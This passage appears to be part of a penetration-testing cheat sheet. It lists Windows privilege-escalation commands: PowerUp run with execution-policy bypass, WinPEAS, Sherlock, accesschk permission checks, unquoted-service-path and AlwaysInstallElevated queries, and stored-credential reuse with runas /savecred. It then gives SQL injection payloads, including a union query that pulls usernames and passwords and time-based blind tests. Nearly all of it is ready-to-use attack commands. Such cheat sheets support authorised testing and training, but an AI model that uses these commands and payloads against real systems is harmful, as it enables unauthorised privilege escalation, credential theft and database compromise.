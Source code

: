 #### Automated Tools
```cmd
# PowerUp for service abuse
powershell -ep bypass
Import-Module PowerUp.ps1
Invoke-AllChecks

# WinPEAS
winPEASx64.exe

# Sherlock for missing patches
Import-Module Sherlock.ps1
Find-AllVulns
```

#### Manual Enumeration
```cmd
# Service permissions
accesschk.exe -accepteula -uwcqv "Authenticated Users" *
sc qc <service_name>

# Registry permissions
accesschk.exe -accepteula -uvwqk HKLM\System\CurrentControlSet\Services

# Unquoted service paths
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

# AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\

# Stored credentials
cmdkey /list
runas /savecred /user:<username> cmd
```

---

## 🎯 Common Attack Patterns

### Web Application Attacks

#### SQL Injection Patterns
```sql
-- Basic union injection
' UNION SELECT 1,2,3--
' UNION SELECT null,username,password FROM users--

-- Boolean-based blind injection
' AND 1=1--
' AND 1=2--

-- Time-based blind injection
'; WAITFOR DELAY '00:00:05'--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
```
